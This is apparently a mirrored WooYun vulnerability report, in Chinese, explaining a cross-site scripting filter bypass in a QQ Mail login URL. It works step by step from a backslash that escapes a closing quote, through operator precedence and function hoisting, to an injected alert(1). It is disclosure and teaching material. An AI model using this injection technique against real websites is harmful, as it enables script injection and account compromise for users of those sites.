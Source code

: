 # 5\. 反斜线复仇记

# 5\. 反斜线复仇记

> 来源：[5\. 反斜线复仇记](http://www.wooyun.org/bugs/wooyun-2010-015979)

## 简要描述

还是在`<script>`之间的场景，某些情况下，我们仅仅需要的只是一个反斜线，就可以绕过过滤了。

## 详细说明

1\. 有以下实例点。

```
http://mail.qq.com/cgi-bin/login?vt=passport&ss=aaa&from=bbb&delegate_url=%2Fcgi-bin%2Fframe_html%3Furl%3D%25252Fcgi- bin%25252Fsetting10%25253Faction%25253Dlist%252526t%25253Dsetting10%252526ss%25253Dindex%252526Mtype%25253D1%252526cl ickpos%25253D20%252526loc%25253Ddelegate%25252Cwebmap%25252C%25252C1 
```

对应的输出，如下图所示：

![image](img/Image_017.jpg)

经过测试，我们可以看到，双引号是用不了， 但是 反斜线还可以使用。

![image](img/Image_018.jpg)

那么这里是否可以成功的 XSS 呢？ 我们把缺陷代码部分提取出来。

```
<script>getTop().location.href="/cgi-bin/loginpage?autologin=n&errtype=1&verify=&clientuin="+"&t="+"&alias="+"&regali as="+"&delegate_url=%2Fcgi-bin%2Fframe_html%3Furl%3D%252Fcgi-bin%252Fsetting10%253Faction%253Dlist%2526t%253Dsetting1 0%2526ss%253Dindex%2526Mtype%253D1%2526clickpos%253D20%2526loc%253Ddelegate%252Cwebmap%252C%252C1"+"&title="+"&url=%2 Fcgi-bin%2Flogin%3Fvt%3Dpassport%26ss%3Daaa%2522%26from%3Dbbb%5C%26delegate_url%3D%252Fcgi-bin%252Fframe_html%253Furl%253D%2525252Fcgi-bin%2525252Fsetting10%2525253Faction%2525253Dlist%25252526t%2525253Dsetting10%25252526ss%2525253Din dex%25252526Mtype%2525253D1%25252526clickpos%2525253D20%25252526loc%2525253Ddelegate%2525252Cwebmap%2525252C%2525252C1"+"&org_fun="+"&aliastype="+"&ss=aaa"+"&from=bbb"+"&param="+"&sp=6fa57ce5b3047ebMTM1NTQwOTA2Mg"+"&r=3ec785174fff5206 ed6f0cf4a8c5e3c5"+"&ppp="+"&secpp="</script> 
```

2\. 可以看到有缺陷的部分是

```
location.href="........."+"&ss=aaaa"+"&from=bbb"+"&param=";//后面省略。 
```

我们可以控制的是 aaaa ，又不能用`"`，怎么办呢？ 因为我们可以使用 `\`，那么我们可以杀掉 aaaa 后面的 双引号。

```
location.href="........."+"&ss=aaaa\"+"&from=bbb"+"&param="; 
```

可以看到代码的结果因为一个反斜线发生了变化，如下图：

![image](img/Image_019.jpg)

为了保证 bbb 后面的语法正确性，我们把 bbb 改为一个数字，把 bbb 后面加上 `//` 来注释掉后面的部分。变成以下形式。

```
location.href="........."+"&ss=aaaa\"+"&from=1//"+"&param="; 
```

3\. 看起来不错哦，但是会出来一些问题，`"字符串"&from=1`，这样是错误的，因为&符号的优先级高， `("字符串"&from)=1` 是无法进行 这种赋值操作的。这样一来还是不行。别着急。我们可以稍微改动一下。变为以下形式。

```
location.href="........."+"&ss=aaaa\"+"&from==1//"+"&param="; 
```

由于==的优先级比 `&` 高，所以语句相当于 `("字符串")&(from==1)`

4\. 更顺眼了，但是还是会悲剧啊。由于 from 未定义，直接和 1 进行相等判断的话，会报错，错误是：“from”未定义。。。怎么办呢？

5\. 别紧张，javascript 里有一个特性。 如下：

```
aaa();

function aaa(){

} 
```

凡是以 `function xxx(){}` 形式定义的函数，都会被最优先解析。换句话说：

解析器在解析 JS 代码段时，会先将 `function xxx(){}` 拿到最前面解析，然后再依次解析其它的部分。 换句话说，上面的代码，实际 的解析顺序是：

```
function aaa(){

}

aaa(); 
```

利用这样一个特性，我们的代码可以改改。

```
location.href="........."+"&ss=aaaa\"+"&from==1;function from(){}//"+"&param="; 
```

这样一来，我们的 `function from(){}` 就会被提前解析，从而定义了 from, 后面 `from==1` 的时候，就不会报错啦～～

6\. 故事往往是曲折的，到了这一步，我们会发现还是不行。

看一看源代码吧～～ ，哎，我们的空格被转义为了 `&nbsp;`

![image](img/Image_020.jpg)

7\. 当然，这么一点小事情，难不到我们的，我们用注释符来做分隔符。 `/**/`替换空格，有没有觉得和 sql 注入一样了，咔咔。

于是，我们的代码变为了：

```
location.href="........."+"&ss=aaaa\"+"&from==1;function/**/from(){}//"+"&param="; 
```

8\. 嗯，这次没有语法错误了，我们插入我们自己的 JS 代码。

```
location.href="........."+"&ss=aaaa\"+"&from==1;alert(1);function/**/from(){}//"+"&param="; 
```

最终的利用代码如下：

恩，这次是我们的 反斜线为 双引号报仇啦！

![image](img/Image_021.jpg)

只有在不登录 QQ 邮箱的情况下触发，比较鸡肋，实际意义不大，仅供研究。

## 修复方案

1\. 随便修修就好。

2\. 某些情况下，`\` 还是很危险的。